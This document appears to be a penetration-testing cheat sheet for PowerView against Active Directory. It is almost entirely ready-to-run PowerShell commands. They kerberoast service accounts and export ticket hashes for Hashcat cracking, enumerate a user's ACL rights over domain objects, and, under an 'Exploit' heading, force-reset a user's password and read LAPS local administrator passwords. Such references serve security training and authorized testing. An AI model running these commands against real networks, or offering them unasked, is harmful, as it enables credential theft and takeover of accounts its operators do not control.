

---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# PowerView

## Enumeration

### Check for Kerberoastable accounts

```powershell
Get-DomainUser * -SPN |Select samaccountname
```

Kerberoast


```powershell
Get-DomainUser * -SPN -verbose |  Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_spns.csv -NoTypeInformation
```


### Targeted ACL enumeration.

```powershell
# find user's SID
$sid = Convert-NameToSid <USER>
# search for all domain objects that the user has rights over
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? ($_.SecurityIdentifier -eq $sid)
```

The `ObjectAceType` fields tells us what ACE the user has over the object (Figure 1).

<figure><figcaption><p>Figure 1: The ObjectAceType lets us know what ACE the user has over the object.</p></figcaption></figure>

In case the script cannot be used, we can use native cmdlets. To convert the GUID into a human-readable format we can either perform a reverse search as shown below, or just google the GUID.


```powershell
# make a list of all domain users
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
# retrieve ACL information about the target user
foreach($line in [System.IO.File]::ReadLines("C:\Windows\Temp\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match '<DOMAIN>\\<USER>'}}
# convert GUID into a human-readable format
$guid= "00299570-246d-11d0-a768-00aa006e0529"
# reverse search to map the name to GUID
Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * |Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl
```


## Exploit

### Change Password


```powershell
Set-DomainUserPassword -Identity <USER> -AccountPassword (ConvertTo-SecureString 'Password123!' -AsPlainText -Force ) -Verbose
```


### LAPS password


```powershell
Get-DomainComputer "MachineName" -Properties 'cn','ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'
```


## Resources






